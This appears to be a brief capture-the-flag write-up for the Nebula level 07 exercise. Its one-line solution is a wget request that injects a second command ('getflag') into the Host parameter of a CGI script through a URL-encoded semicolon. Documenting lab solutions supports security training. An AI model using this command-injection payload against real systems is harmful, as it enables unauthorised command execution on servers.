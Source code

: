 .. _nebula5:

.. role:: bash(code)
	  :language: bash

Nebula 7
========

Basic Information
-----------------


**Home Page** https://exploit-exercises.com/nebula/level07/

Solution
--------

:bash:`wget nebula'sIP/index.cgi?Host=%3Bgetflag`
